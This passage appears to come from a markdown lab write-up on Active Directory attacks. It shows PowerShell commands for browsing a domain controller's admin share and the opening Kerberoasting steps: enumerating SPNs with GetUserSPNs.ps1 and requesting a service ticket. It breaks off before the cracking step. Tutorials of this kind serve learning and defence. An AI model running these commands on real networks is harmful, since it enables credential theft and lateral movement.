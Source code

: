     ```powershell
    dir \\dc1\c$
    Get-ChildItem \\dc1\c$
    ```
  * **Analysis:** These actions often indicate attempts to move laterally within the network.


---

### 🔑 **3. Kerberoasting Attack**

Kerberoasting is an attack technique that allows an attacker to request encrypted service tickets for service accounts, which can then be cracked offline to recover plaintext credentials.

**📌 Prerequisites:**

* A domain-joined machine and a domain user account (e.g., **compromiseduser**).

**⚙️ Steps:**

1. **Enumerate ServicePrincipalNames (SPNs):**

```powershell
PS C:\Windows\system32> cd C:\Users\<USERNAME>\Downloads\kerberoast-master
PS C:\Users\<USERNAME>\Downloads\kerberoast-master> .\GetUserSPNs.ps1
```

* This script lists all service accounts with SPNs, which can be targeted for ticket extraction.

![SPN Enumeration](/assets/image-9.png)

2. **Request TGS Ticket:**

```powershell
PS C:\Users\<USERNAME>\Downloads\kerberoast-master> Add-Type -AssemblyName System.IdentityModel
PS C:\Users\<USERNAME>\Downloads\kerberoast-master> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "http/Windows10"
```
